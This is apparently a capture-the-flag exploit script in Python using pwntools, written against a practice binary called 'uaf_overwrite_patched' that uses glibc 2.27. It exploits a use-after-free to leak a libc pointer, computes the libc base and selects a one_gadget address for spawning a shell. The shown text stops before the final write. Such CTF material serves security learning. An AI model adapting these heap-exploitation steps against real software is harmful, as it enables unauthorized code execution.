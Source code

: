from pwn import *

exe = ELF("./uaf_overwrite_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
p = process()
#gdb.attach(p,gdbscript='''
#           b*custom_func+126
 #          b*custom_func+219
 #          b*custom_func+376
#           ''')
def custom_func(data,size,idx) :
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'Size: ',str(size))
    p.sendafter(b'Data: ',data.encode())
    p.sendlineafter(b'idx: ',str(idx).encode())
def robot_func():
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'Weight: ',str(100))
def human_func(age):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'Weight: ',str(100))
    p.sendlineafter(b'Age: ',str(age))
input()
custom_func("aaaa",1500,-1)
custom_func("bbbb",1500,0)

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'Size: ',b'1500')
p.sendafter(b'Data: ',b'a')
p.recvuntil(b'Data: ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
print("leak libc: ",hex(leak))
p.sendlineafter(b'idx: ',b'-1')

#find area offset
#area_offset = libc.sym.__malloc_hook + 0x10
offset_main_area = 0x3ebc40

bytes_of_area = offset_main_area & 0xff
bytes_of_leak = leak & 0xff

libc.address = leak - offset_main_area + (bytes_of_area - bytes_of_leak)
print("libc address: ",hex(libc.address))

one_gadget = [0x4f3ce,0x4f3d5,0x4f432,0x10a41c]
getshell = libc.address + one_gadget[3]
